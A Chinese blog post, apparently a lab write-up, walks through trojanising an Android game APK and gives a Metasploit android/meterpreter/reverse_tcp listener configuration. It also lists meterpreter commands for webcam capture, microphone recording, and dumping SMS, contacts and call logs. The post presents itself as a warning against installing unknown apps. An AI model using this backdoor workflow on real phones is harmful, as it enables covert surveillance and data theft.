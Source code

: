 ```yaml
---
layout:     post
title:      "安卓渗透测试"
subtitle:   " \"linux\""
date:       2024-4-6 15:25:49
author:     "yangsir"
header-img: "img/bg-material.jpg"
catalog: true
tags:
    - 笔记
    - k8s
    - 云原生




---
```


> “记一次安卓渗透测试”


<p id = "build"></p>

实验环境：

| ip            | 操作系统 |
| ------------- | -------- |
| 192.168.1.116 | linux    |



# 向安卓软件.APK中注入后门



注意：此文章只分享部分步骤，仅用来警示部分朋友的无视风险安装



安卓客户端渗透目前来说已经是CTF中的一个非常重要的分类了，但是通常的它更多的是二进制层面的博弈，如果仅仅是在apk中注入后门可能非常简单，但通常需要的是一系列的攻击手段来辅助完成 的。所以这里仅做简单介绍，并不深入研究。



## 禁用ipv6

```shell
echo "net.ipv6.conf.eth0.disable_ipv6 = 1" >> /etc/sysctl.conf 

sysctl -p 

ifconfig 
```

![image-20240406204819875](\img\springBoot\image-20240406204819875.png)



## 安装逆向工具 

![image-20240406205125178](\img\springBoot\image-20240406205125178.png)

解压安装

## 上传游戏安装包，游戏名为 禁锢坦克



![image-20240406205608521](\img\springBoot\image-20240406205608521.png)



## 检查并安装依赖

![image-20240406205931704](\img\springBoot\image-20240406205931704.png)



## 进入逆向工具

![image-20240406210149375](\img\springBoot\image-20240406210149375.png)



## 开始对apk注入后门

![image-20240406210425487](\img\springBoot\image-20240406210425487.png)



## 生成一个密钥，编译apk程序所需。



![image-20240406210625118](\img\springBoot\image-20240406210625118.png)



## 生成带有后门的APK程序 

![image-20240406223856283](\img\springBoot\image-20240406223856283.png)

## 手动启动侦听 



```
msfdb run 
use exploit/multi/handler 
set PAYLOAD android/meterpreter/reverse_tcp 
set lhost 192.168.1.53 
set lport 4444 
exploit
```



## 手机安装运行APP即可建立session



![image-20240406224756553](\img\springBoot\image-20240406224756553.png)



双击启动

![image-20240406224859446](\img\springBoot\image-20240406224859446.png)





![image-20240406224923307](\img\springBoot\image-20240406224923307.png)成功建立连接



常用命令解释 

```
Stdapi: Webcam Commands 
=================================== 
webcam_list  列出网络摄像头 
record_mic [ˈrekərd]/记录/  从默认麦克风录制音频为X秒 
webcam_chat  开始视频聊天 
webcam_snap  从指定的摄像头获取快照 
webcam_stream -i 1  从指定的网络摄像头播放视频流[选择后摄像头] 
Android Commands 
================= 
activity_start  从 URI 字符串启动Android活动 
check_root  检查设备是否有根 
dump_calllog  获取调用日志 
dump_contacts  获取联系人列表 
dump_sms  获取短信 
geolocate  利用地理定位获取当前LAT 
wlan_geolocate  利用 WLAN信息获取当前LAT
hide_app_icon  从发射器隐藏应用程序图标 
interval_collect  管理区间收集能力 
send_sms  从目标会话发送短消息 
set_audio_mode  
sqlite_query  从存储库查询SQLite数据库 
wakelock  启用/禁用Wakelock 
```



废话不多说我们直接拍个照。

![image-20240406225301712](\img\springBoot\a4f44de06bb81b7499b6878e30e185d.png)





兄弟们 不要无视风险安装不明来源的软件了！！！！

